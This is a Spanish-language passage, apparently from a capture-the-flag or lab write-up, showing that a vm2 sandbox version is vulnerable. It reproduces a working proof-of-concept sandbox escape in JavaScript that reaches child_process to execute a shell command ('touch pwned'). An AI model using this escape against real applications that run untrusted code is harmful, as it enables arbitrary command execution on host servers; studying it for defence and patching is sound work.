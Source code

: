 ![20240721001414.png](20240721001414.png)

Investigando un poco sobre esta versión encontraremos que es vulnerable y podemos ejecutar comandos.

- [Sandbox Escape in vm2@3.9.16](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

En siguiente código veremos una muestra de el código que debemos ingresar para ejecutar comandos.

```c
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```

Corremos el código anterior y observamos que efectivamente podemos ejecutar comandos
